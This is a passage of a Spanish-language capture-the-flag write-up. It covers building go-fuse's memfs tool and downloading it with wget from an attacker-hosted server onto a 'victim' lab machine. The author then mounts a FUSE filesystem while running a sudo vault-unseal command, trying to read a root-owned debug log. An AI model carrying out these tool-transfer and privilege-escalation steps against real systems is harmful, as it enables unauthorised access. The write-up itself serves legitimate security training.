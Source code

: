 Sirve para hacer lo mismo que `sshfs`

Clonamos el repositorio en nuestra máquina.
```console
$ git clone https://github.com/hanwen/go-fuse
Cloning into 'go-fuse'...
remote: Enumerating objects: 13238, done.
remote: Counting objects: 100% (3744/3744), done.
remote: Compressing objects: 100% (775/775), done.
remote: Total 13238 (delta 3208), reused 3029 (delta 2965), pack-reused 9494 (from 1)
Receiving objects: 100% (13238/13238), 3.92 MiB | 757.00 KiB/s, done.
Resolving deltas: 100% (8781/8781), done.
```

Nos dirigimos donde está esta herramienta.
```console
$ cd go-fuse/example/memfs/
```

Compilamos la herramienta.
```console
$ go build
go: downloading golang.org/x/sys v0.0.0-20220520151302-bc2c85ada10a
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/skyfall/content/go-fuse/example/memfs]
└──╼ [★]$ ls -la
total 3208
drwxr-xr-x 1 pointedsec pointedsec      24 sep  5 20:42 .
drwxr-xr-x 1 pointedsec pointedsec     158 sep  5 20:41 ..
-rw-r--r-- 1 pointedsec pointedsec     957 sep  5 20:41 main.go
-rwxr-xr-x 1 pointedsec pointedsec 3280384 sep  5 20:42 memfs
```

Ahora en la máquina víctima nos descargamos esta herramienta ya compilada.
```console
askyy@skyfall:~$ wget http://10.10.14.125:8081/memfs .
```

Le damos permisos de ejecución y probamos a ejecutarla para ver que se ha compilado correctamente.
```console
askyy@skyfall:~$ chmod +x memfs 
askyy@skyfall:~$ ./memfs 
usage: main MOUNTPOINT BACKING-PREFIX
```

Vemos que podemos montar nuestra carpeta actual en `test/`, ahora solo necesitamos otra sesión de SSH y ver que todo ha salido bien y podemos acceder a `debug.log`
```console
askyy@skyfall:~$ mkdir /tmp/test
askyy@skyfall:~$ ./memfs /home/askyy /tmp/test
Mounted!
```

Al hacer la montura e intentar crear otra vez el archivo vemos que no sale bien.
```console
askyy@skyfall:/tmp/test$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:/tmp/test$ ls -la
total 12
drwxrwxr-x  2 askyy askyy 4096 Sep  5 18:54 .
drwxrwxrwt 13 root  root  4096 Sep  5 18:53 ..
-rw-------  1 root  root   555 Sep  5 18:54 debug.log
askyy@skyfall:/tmp/test$ cat debug.log 
cat: debug.log: Permission denied
askyy@skyfall:/tmp/test$ 
```

